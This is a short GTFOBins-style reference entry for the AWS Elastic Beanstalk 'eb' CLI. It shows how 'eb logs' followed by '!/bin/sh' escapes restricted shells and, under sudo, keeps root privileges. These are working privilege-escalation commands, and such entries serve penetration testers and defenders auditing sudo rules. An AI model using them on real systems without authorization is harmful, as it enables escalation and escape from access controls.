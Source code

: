 # GTFOBin: eb

This invokes the default logging service, which is likely to be `journalctl`, other functions may apply. For this to work the target must be connected to AWS instance via EB-CLI.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
eb logs
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo eb logs
!/bin/sh
```